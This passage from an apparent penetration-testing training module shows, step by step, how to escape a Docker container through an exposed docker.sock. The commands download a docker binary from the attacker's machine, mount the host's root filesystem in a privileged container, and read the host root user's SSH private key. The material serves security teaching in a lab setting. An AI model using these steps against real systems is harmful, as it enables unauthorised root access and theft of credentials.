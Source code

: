 ## Docker Sockets

```shell
htb-student@container:~/app$ ls -al

total 8
drwxr-xr-x 1 htb-student htb-student 4096 Jun 30 15:12 .
drwxr-xr-x 1 root        root        4096 Jun 30 15:12 ..
srw-rw---- 1 root        root           0 Jun 30 15:27 docker.sock
```

From here on, we can use the `docker` binary to interact with the socket and enumerate what docker containers are already running. If not installed, then we can download it [here](https://master.dockerproject.org/linux/x86_64/docker) and upload it to the Docker container.

```shell
htb-student@container:/tmp$ wget https://<parrot-os>:443/docker -O docker
htb-student@container:/tmp$ chmod +x docker
htb-student@container:/tmp$ ls -l

-rwxr-xr-x 1 htb-student htb-student 0 Jun 30 15:27 docker


htb-student@container:~/tmp$ /tmp/docker -H unix:///app/docker.sock ps

CONTAINER ID     IMAGE         COMMAND                 CREATED       STATUS           PORTS     NAMES
3fe8a4782311     main_app      "/docker-entry.s..."    3 days ago    Up 12 minutes    443/tcp   app
<SNIP>
```

We can create our own Docker container that maps the host’s root directory (`/`) to the `/hostsystem` directory on the container. With this, we will get full access to the host system. Therefore, we must map these directories accordingly and use the `main_app` Docker image.

```shell
htb-student@container:/app$ /tmp/docker -H unix:///app/docker.sock run --rm -d --privileged -v /:/hostsystem main_app
htb-student@container:~/app$ /tmp/docker -H unix:///app/docker.sock ps

CONTAINER ID     IMAGE         COMMAND                 CREATED           STATUS           PORTS     NAMES
7ae3bcc818af     main_app      "/docker-entry.s..."    12 seconds ago    Up 8 seconds     443/tcp   app
3fe8a4782311     main_app      "/docker-entry.s..."    3 days ago        Up 17 minutes    443/tcp   app
<SNIP>
```

Now, we can log in to the new privileged Docker container with the ID `7ae3bcc818af` and navigate to the `/hostsystem`.

```shell
htb-student@container:/app$ /tmp/docker -H unix:///app/docker.sock exec -it 7ae3bcc818af /bin/bash


root@7ae3bcc818af:~# cat /hostsystem/root/.ssh/id_rsa

-----BEGIN RSA PRIVATE KEY-----
<SNIP>
```
